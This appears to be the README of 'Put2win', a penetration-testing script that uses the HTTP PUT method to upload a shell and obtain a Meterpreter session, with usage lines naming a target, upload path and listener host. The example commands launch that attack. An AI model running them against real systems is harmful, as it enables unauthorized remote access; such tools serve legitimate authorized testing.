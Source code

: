 # Put2win
[![asciicast](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ.png)](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Usage
./Put2win.sh -h                                    
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10

# Contact
Telegram: @devploit
Twitter: https://www.twitter.com/devploit
